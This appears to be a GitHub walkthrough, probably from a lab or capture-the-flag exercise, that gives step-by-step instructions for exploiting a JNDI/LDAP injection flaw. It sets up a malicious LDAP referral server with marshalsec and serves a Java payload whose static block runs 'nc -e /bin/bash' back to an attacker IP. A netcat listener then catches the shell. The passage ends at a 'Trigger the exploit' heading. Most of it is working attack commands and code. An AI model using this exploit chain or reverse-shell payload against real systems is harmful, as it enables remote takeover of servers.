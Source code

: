 I'll explain the steps one by one , just follow me along .

First things first we need `java version 8` on our machine in order to build the LDAP server .Create 4 terminal windows and follow the steps.
> Note : Change VICTIM-IP with your Machine_IP and ATTACKER-IP to your tun0 IP! 

### LDAP server (Terminal 1)

Steps: 

1. To exploit this issue, we need to have a malicious LDAP server. Marshalsec Utility can be used for this part .Git clone the repository.
LINK - [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec) .
2. Run `sudo apt install maven` to install Java builder maven.
3. `cd marshalsec` (move into the cloned repository)
4. RUN - `mvn clean package -DskipTests` (build marshalsec utility)
5. RUN - `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://ATTACKER-IP:8000/#Exploit"`  (start LDAP referal server)


### Secondary HTTP server (Terminal 2)

This is used to serve the `Exploit.class` file when the victim server requests it.

Contents of `Exploit.java` file 👇🏻
```java
public class Exploit 
{ 
	static { 
		try { 
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash ATTACKER-IP 9999"); 
			}
	catch (Exception e) 
			{ 
			e.printStackTrace(); 
			} 
		   } 
}
```
Steps:

1. Create a file named `Exploit.java` with the following contents mentioned above 
2. RUN - `javac Exploit.java -source 8 -target 8` (compile the payload file) 
3. Now new file called `Exploit.class is created`.
4. RUN - `python3 -m http.server` (start a local server) 

### Netcat listener (Terminal 3)

This is used to catch the reverse shell after the victim_server retreives & executes our malicious **Exploit.class** file.

```
nc -lvnp 9999
```

### Trigger the exploit (Terminal 4)

